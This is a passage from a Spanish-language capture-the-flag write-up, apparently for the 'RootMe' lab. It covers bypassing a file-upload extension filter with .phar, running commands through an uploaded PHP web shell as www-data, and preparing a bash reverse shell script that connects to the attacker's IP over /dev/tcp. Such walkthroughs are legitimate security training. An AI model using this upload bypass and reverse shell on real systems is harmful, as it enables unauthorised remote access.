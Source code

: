 ```py

        r = s.post(url,files=files,data=data)

if __name__ == '__main__':

    File_Upload()
```

Si ejectuamos el código, y vamos a la sección de **uploads**, encontraremos lo siguiente:

![](/imagenes/Root_me/rootme13.png)

Vemos que muchos archivos han pasado el filtro de la extensión, vamos a ir revisando uno por uno para ver que encontramos:

![](/imagenes/Root_me/rootme14.png)

Por ejemplo, vemos que este ha fallado, pues el servidor no está interpretando el código php, en caso de que estuviese interpretandolo, deberíamos ver la página en blanco, si revisando uno por uno, vamos a encontrar solo 2 extensiones que presentan una página en blanco, tenemos **.phar** y **.phtlm**, vamos a utilizar el **.phar** e intentemos enviar un comando utilizando la variable cmd que definimos en el archivo .php:

![](/imagenes/Root_me/rootme15.png)

Vemos que el comando **id** se ha ejecutado correctamente y somos el usuario **www-data**, vamos a intentar que el servidor nos envíe en una conexión hacia nuestra máquina para ganar acceso al sistema.

Esto consta de 3 partes, en primer lugar tenemos el archivo que queremos que el servidor ejecute para que nos mande un conexión reversa hacia nuestra máquina:

```
!#/bin/bash

bash -i >& /dev/tcp/10.18.87.177/1234 0>&1
```
Este es un pequeño script de bash, que utilizando el /dev/tcp, envía una bash interactiva hacia el ip y el puerto especificado en el script. Para que la máquina víctima pueda ejecutar esto, vamos a compartirlo a través de un servidor http con python, de la siguiente manera:
